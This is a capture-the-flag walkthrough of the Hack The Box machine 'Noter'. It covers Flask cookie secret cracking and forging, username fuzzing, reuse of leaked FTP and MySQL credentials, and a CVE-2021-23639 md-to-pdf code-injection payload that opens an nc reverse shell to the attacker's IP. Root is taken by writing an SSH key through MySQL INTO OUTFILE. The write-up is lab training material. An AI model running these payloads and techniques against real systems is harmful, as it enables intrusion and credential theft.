


# [Noter](https://app.hackthebox.com/machines/noter)

```bash
nmap -p-  --min-rate 10000 10.10.11.160 -Pn 
```


After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p21,22,5000 10.10.11.160 -Pn
```


Let's look at web application for port `5000`.


Let's create account and try to understand dashboard page's working principle.




I looked at my cookie on HTTP request headers.


As this is `Python` application, let's try to decode this cookie via `flask-unsign` tool.

```bash
flask-unsign --decode --cookie '{cookie}'
```


Let's try to find `secret` value by brute-forcing via using `rockyou.txt` wordlist.

```bash
flask-unsign --unsign --cookie "{secret}" -w /usr/share/wordlists/rockyou.txt --no-literal-eval 
```


Let's try to encode `Flask` cookie via `admin` user.

```bash
flask-unsign --sign --cookie "{'logged_in': True, 'username': 'admin'}" --secret 'secret123'
```


But it doesn't work as because there's no `admin` user.

Let's `fuzz` possible usernames.

```bash
wfuzz -u http://10.10.11.160:5000/login -d "username=FUZZ&password=junkpassword" -w /usr/share/seclists/Usernames/Names/names.txt --hs "Invalid credentials"
```


From this result, I see that `blue` user is possible, let's create session cookie for this user.
```bash
flask-unsign --sign --cookie "{'logged_in': True, 'username': 'blue'}" --secret 'secret123'
```


While we replace this session cookie, I already on `Dashboard` of `blue` user.


I found such a leak which contains `FTP` credentials.


blue: blue@Noter!


Let's connect into `FTP`.


I get `policy.pdf` file and read content of this.


So due to this `Password Creation`, I can guess `ftp_admin` credentials.


ftp_admin: ftp_admin@Noter!


Let's connect into `FTP` via this credentials.




I get two backup files which have `.zip` extension.

I find `hard-coded` credentials from `app.py` file.


root: Nildogg36


On `misc` directory, I find a script called `md-to-pdf.js` file which uses `mdToPdf` library, I look at the version of this library on `package-lock.json` file.


I searched publicly known exploit for this library and find `Code Injection` vulnerability whose [CVE-2021-23639](https://github.com/advisories/GHSA-x949-7cm6-fm6p).


Let's run payload to get reverse shell. I add this payload into `Export directory from cloud` feature on `/export_note_remote` endpoint.

```bash
---js\n((require("child_process")).execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 1337 >/tmp/f"))\n---RCE
```

I also open http.server to serve this exploit file.
```bash
python3 -m http.server --bind 10.10.14.18 8080
```


I submit this HTTP url to get exploit file from my http.server.


Hola! I got reverse shell from port `1337`.


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```


user.txt


For `Privilege Escalation`, I will try to use credentials which I grabbed from `.zip` file on FTP for mysql service.


root: Nildogg36


Let's check this credentials work or not.
```bash
mysql -h 127.0.0.1 -u root -p
```


As we are root user, we can write data into files.

So,for `Privilege Escalation`, I just add my public key into `root` user's `authorized_keys` file via `MySQL` query.

```bash
select "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFNO12UEKYlk6zS+SIpXCvvW7+vf3Jx89Vaw5S9pdj7U root@kali" into outfile "/root/.ssh/authorized_keys2";
```


**Note:** This doesn't work for `authorized_keys` file, that's why I added `2` to end of file name.

Let's connect into machine via private key of attacker user by using `ssh` command.

```bash
ssh -i /root/.ssh/id_ed25519 root@10.10.11.160
```

root.txt

